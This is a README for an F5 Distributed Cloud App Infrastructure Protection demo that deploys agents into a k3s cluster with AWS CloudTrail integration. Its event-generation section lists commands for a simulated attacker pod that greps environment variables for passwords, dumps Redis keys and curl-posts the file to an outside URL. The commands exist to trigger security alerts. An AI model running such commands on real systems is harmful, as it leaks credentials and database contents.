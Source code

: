 XC AIP Demo with CloudTrail integration
==============================
This blueprint allows you to automatically deploy AIP agents into an existing kubernetes cluster (k3s) running across 2 nodes in UDF. Additionally this blueprint leverages AWS cloud account to configure and integrate AWS CloudTrail with AIP automatically.

What you need to do **BEFORE starting the deployment:**
-------------------------------------------------------

## Copy AIP keys and Account ID


1. Login to F5 Distributed Cloud tenant where you would like AIP to be connected to
2. Navigate to *App Infrastructure Protection* -> **YOUR ORG (mapped NS in XC)** ->*Settings* -> *Keys*
3. Copy the following values:
    - **Deployment Key**
    - **REST API Key**
    - **Organization ID**
    - **User ID**

4. Navigate to *Settings* -> *Integrations* -> *Click on "ADD AWS INTEGRATION"
5. Copy **Account ID** value

## Populate User Tags and User-data script


1. In this UDF blueprint locate **CONFIGURE ME** Ubuntu server and click **DETAILS**
2. **Documentation** page contains User Tags where you need to define 3 tags: ORG, USER and ACCOUNT. See Description on the top of the page for instructions
Example of User Tags:

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/user_tags.jpg?raw=true)

3. Navigate to **Details** page and edit **Custom Userdata** script. You need to insert **YOUR Deployment Key** and **YOUR REST API Key**

## Start the deployment

Startup script will perform the following actions to integrate 3 agents (1 on each node plus 1 agent that "listens" to k8s API) and AWS CloudTrail:

 1. Gather data from env file and UDF metadata (user tags)
 2. Deploy stack using Cloudformation template
 3. Create integration on AIP side and gather External ID
 4. Update stack with AIP External ID
 5. Create CloudTrail resources in AIP

## Generating the events

There is a "rogue" pod that will be generating events. The pod uses the following commands to simulate the adversary:

```
kubectl apply -f pod.yaml
kubectl exec redis-client -- env |grep -i pass
REDISCLI_AUTH="$REDIS_PASSWORD" /usr/local/bin/redis-cli -h redis-cluster-master keys \* > my.db
curl --connect-timeout 1 -X POST -F "image=@my.db" https://f5se.com/data/db/my/1.db
```

This behavior is in line with the attacker locating redis DB and exfiltrating DB data to an arbitrary URL

## Enabling Rules

In order for the system to generate *Alerts* it is necessary to enable corresponding **Rule Sets**. Navigate to *Rules* and enable the following Rule Sets:

  1. Base Rule Set
  2. Docker Rule Set
  3. Cloud Trail Rule Set
  4. Kubernetes Rule Set

Additionally, under **RULE TYPE** select the following types and ensure all rules under these types are enabled:

  1. Cloud Trail
  2. File Integrity
  3. Host
  4. Kubernetes Audit
